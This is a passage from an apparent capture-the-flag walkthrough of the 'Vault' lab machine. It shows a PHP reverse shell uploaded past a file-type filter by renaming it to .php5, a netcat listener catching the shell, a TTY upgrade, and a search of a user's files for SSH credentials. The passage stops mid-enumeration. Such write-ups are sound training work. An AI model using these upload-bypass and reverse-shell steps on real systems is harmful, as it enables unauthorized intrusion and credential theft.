 Description automatically generated\]\(../.gitbook/assets/1.png\)

Vault admin panel

Clicking on "Server Settings" leads to a page under construction. "Design Settings" however, returns a page that allows the logo to be changed. We can upload a PHP file that will give us a reverse shell. There are webshells already installed on Parrot Sec OS located in the directory /usr/share/webshells. We will use the PHP one:

/usr/share/webshells/php/php-reverse-shell.php

Copying this file to our working directory and renaming it reverse.php, we can try and upload it using the logo upload feature. The upload function restricts the file types that can be uploaded and so if you try and upload the PHP file you get an error returned saying "sorry that file type is not allowed". However, if you change the extension of the file to another valid PHP extension "reverse.php5", that is allowed. Start a Netcat listener to catch the reverse shell:

┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Vault\]

└──╼ $nc -lvnp 6001

listening on \[any\] 6001 ...

We can now navigate to the URL:

[http://vault.htb/sparklays/design/uploads/reverse.php5](http://vault.htb/sparklays/design/uploads/reverse.php5)

This then returns a reverse shell which you can upgrade to a full TTY using the Python and bash commands:

python3 -c 'import pty;pty.spawn\("/bin/bash"\)'

CTL-Z

bg

stty raw -echo

fg

fg

We now have initial access as the user www-data. Exploring the /home directories, you see two users; "alex" and "dave". On exploring the "dave" directory, you find a sub-directory "Desktop" that has files which contain ssh credentials for the user "dave":

www-data@ubuntu:/home/dave/Desktop$ ls -al

total 20

drwxr-xr-x 2 dave dave 4096 Sep 3 2018 .

drwxr-xr-x 18 dave dave 4096 Sep 3 2018 ..

-rw-rw-r-- 1 alex alex 74 Jul 17 2018 Servers

-rw-rw-r-- 1 alex alex 14 Jul 17 2018 key

-rw-rw-r-- 1 alex alex 20 Jul 17 2018 ssh

www-data@ubuntu:/home/dave/Desktop$ cat Servers
